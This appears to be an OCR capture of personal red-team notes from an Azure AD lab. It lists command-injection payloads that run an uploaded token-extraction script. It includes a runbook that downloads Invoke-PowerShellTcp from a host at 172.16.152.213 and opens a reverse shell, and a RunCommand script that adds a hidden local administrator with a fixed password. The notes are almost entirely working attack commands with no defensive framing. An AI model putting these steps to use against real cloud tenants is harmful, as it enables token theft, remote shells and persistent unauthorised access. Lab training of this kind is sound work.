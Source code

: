 ```
a lot of the time the EndOfLine or Special Character is a ```;``` - so just put a semi-colon and a system call after it to test!

This website says when we upload files it goes to the ```/tmp``` folder for scanning.. we can upload a python script (within a zip) to extract the tokens and run it from the vulnerable form:
```
; ls /tmp;
; ls /tmp/uploads/studentx;
; python /tmp/uploads/studentx/studentx.py;
```

* * * 

# Playbooks

## Create Runbooks

#### Prepare code for runbook
Create script to be executed via runbook, remember to host TCPConnect.ps1:
```
iex (New-Object Net.Webclient).downloadstring("http://172.16.152.213:82/Invoke-PowerShellTcp.ps1")
Power -Reverse -IPAddress 172.16.152.213 -Port 1234
```

#### Create and Execute runbook
```
Import-AzAutomationRunbook -Name studentx -Path C:\AzAD\Tools\studentx.ps1 -AutomationAccountName HybridAutomation -ResourceGroupName Engineering -Type PowerShell -Force -Verbose
```
```
Publish-AzAutomationRunbook -RunbookName studentx -AutomationAccountName HybridAutomation -ResourceGroupName Engineering -Verbose
```
```
Start-AzAutomationRunbook -RunbookName studentx -RunOn Workergroup1 -AutomationAccountName HybridAutomation -ResourceGroupName Engineering -Verbose
```

## RunCommand

#### Run a script 
Create a script to be used in the runcommand, below is a powershell script to add a user to local administrators group:
```
$passwd = ConvertTo-SecureString "Stud213Password@123" -AsPlainText -Force
New-LocalUser -Name student213 -Password $passwd
Add-LocalGroupMember -Group Administrators -Member student213
```
#### RunCommand
Now we can run the script via VMRumCommand:
```
Invoke-AzVMRunCommand -VMName bkpadconnect -ResourceGroupName Engineering -CommandId 'RunPowerShellScript' -ScriptPath 'C:\AzAD\Tools\adduser.ps1' -Verbose
```

* * *


## Connect to VM
#### Get Public IP
```
Get-AzVM -Name bkpadconnect -ResourceGroupName Engineering
Get-AzVM -Name bkpadconnect -ResourceGroupName Engineering | select -ExpandProperty NetworkProfile
